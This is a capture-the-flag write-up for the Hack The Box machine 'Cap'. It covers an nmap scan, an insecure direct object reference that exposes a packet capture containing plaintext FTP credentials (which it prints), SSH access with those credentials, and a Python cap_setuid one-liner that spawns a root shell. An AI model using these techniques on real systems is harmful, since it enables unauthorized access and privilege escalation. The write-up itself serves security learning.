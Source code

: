 ```yaml
---
description: https://app.hackthebox.com/machines/Cap
---
```


# Cap

## Nmap

```
nmap 10.10.10.245 -p- -sS -sV

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
Nmap done: 1 IP address (1 host up) scanned in 141.34 seconds
```

Initially we start out checking FTP to see if anonymous log in is enabled which, unfortuantely is not the case.

We next move onto Port 80 and notice we are taken to a page titled Security Dashboard.

![](<../../../.gitbook/assets/image (430).png>)

Preliminary checks on the user interface show we are able to view basis `netstat` information and IP addresses assigned to local interfaces on the target system.

![](<../../../.gitbook/assets/image (2065) (1) (1) (1) (1) (2).png>)

We also notice that we can download packet capture `PCAP` files.

![](<../../../.gitbook/assets/image (1134).png>)

Every time we request a recapture under `/capture` the download link for the `PCAP` file increments by 1.

This starts from `/data/1`. When we browse to `/data/0` we are able to download an unrequested `PCAP` file.

Loading the resulting `PCAP` file into `Wireshark` we are able to view credentials for the user Nathan.

![](<../../../.gitbook/assets/image (705).png>)

Which gives us FTP credentials for `nathan:Buck3tH4TF0RM3!`

These same credentials can be used for SSH access.

```
ssh nathan@10.10.10.245
```

![](<../../../.gitbook/assets/image (381).png>)

Now logged on we begin enumerating. Checking what capabilities are enabled on the target system we see Python 3 has some interesting ones set.

```
getcap -r / 2>/dev/null
```

![](<../../../.gitbook/assets/image (17) (2).png>)

The `cap+setuid_capabilty` will allow us to call a `python` command with a uid of '0' which is root. We can use these to spawn a root bash shell.

```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

![](<../../../.gitbook/assets/image (282).png>)
